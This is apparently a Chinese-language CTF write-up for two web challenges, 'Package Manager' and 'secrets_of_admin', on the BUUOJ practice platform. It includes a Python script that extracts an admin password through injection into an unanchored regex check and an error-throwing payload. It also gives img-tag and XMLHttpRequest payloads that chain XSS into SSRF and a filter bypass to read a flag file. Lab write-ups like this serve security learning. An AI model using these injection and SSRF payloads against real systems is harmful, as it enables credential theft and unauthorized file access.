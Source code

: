 ## Package Manager

![](attachments/Pasted%20image%2020240401161008.png)

直接注入即可，不需要考虑语法，checkmd5Regex的编写有问题

![](attachments/Pasted%20image%2020240401161056.png)

未使用`^$`包裹在最前面放32个字母即可
我的buu靶机有问题
贴个exp
```PYTHON
import requests  
import string  
  
url="http://fa767ade-d4a2-4335-a76b-84bebdea8395.node4.buuoj.cn:81/auth"  
headers={  
    "Cookie": "session=s:43UCQxzqHneiwEF-JP_ftZ0Aw1upXuCF.t58XyJ4BQ4rmP8Da+VdQzkHtAd1r4EkRUs9h/Zim3os",  
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36",  
    "Referer": "http://fa767ade-d4a2-4335-a76b-84bebdea8395.node4.buuoj.cn:81/packages/submit",  
    "Origin": "http://fa767ade-d4a2-4335-a76b-84bebdea8395.node4.buuoj.cn:81",  
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",  
    "Upgrade-Insecure-Requests": "1",  
}  
  
flag = ''  
for i in range(10000):  
    for j in string.printable:  
        if j == '"':  
            continue  
        payload='aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"||this.password[{}]=="{}'.format(i,j)  
        #print(payload)  
        data={  
            "_csrf":"2PzwJX5n-Y1qH02TLkz3_JXa_OBn2hpgU2G8",  
            "token":payload  
        }  
  
        r=requests.post(url=url,data=data,headers=headers,allow_redirects=False)  
        #print(r.text)  
        if "Found. Redirecting to" in r.text:  
            #print(payload)  
            flag+=j  
            print(flag)  
            break
```

报错弹出password
`_csrf=2PzwJX5n-Y1qH02TLkz3_JXa_OBn2hpgU2G8&token=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"|| ( ()=>{throw Error(this.password)})()=="admin`

## secrets_of_admin

最终获取flag依赖于这里的读文件，获取文件名以拼接对应的文件路径

![](attachments/Pasted%20image%2020240401185809.png)

在数据库中与文件名相对应的是checksum

![](attachments/Pasted%20image%2020240401190110.png)

flag已经写给了superuser，而superuser是无法访问获取文件的

![](attachments/Pasted%20image%2020240401190154.png)

本质是文件名与前面的路径拼接，那么可以拼接一个和flag意义相同的文件名，`./flag`并给他一个可控的checksum

![](attachments/Pasted%20image%2020240401190346.png)

这里可控的添加checksum需要127.0.0.1访问，利用admin路由下的渲染前端，控制content在content处执行对应checksum的添加

![](attachments/Pasted%20image%2020240401190459.png)

控制checksum的url `http://127.0.0.1:8888?username=admin&filename=./flag&checksum=3456`

payload
`<img src="http://127.0.0.1:8888?username=admin&filename=./flag&checksum=3456">`

对于content内容的过滤传数组类型就可以绕过

`content[]=%3Cscript%3E%0D%0Avar%20xhr%20%3d%20new%20XMLHttpRequest();xhr.open(%22GET%22,%20%22http%3a//127.0.0.1%3a8888/api/files%3fusername%3dadmin%26filename%3d./flag%26checksum%3d123%22,%20true);xhr.send();%0D%0A%3C/script%3E`

![](attachments/Pasted%20image%2020240401194309.png)

访问`http://caf69c0a-23dd-4710-ad51-a7e70b632f04.node5.buuoj.cn:81/api/files/123`下载到flag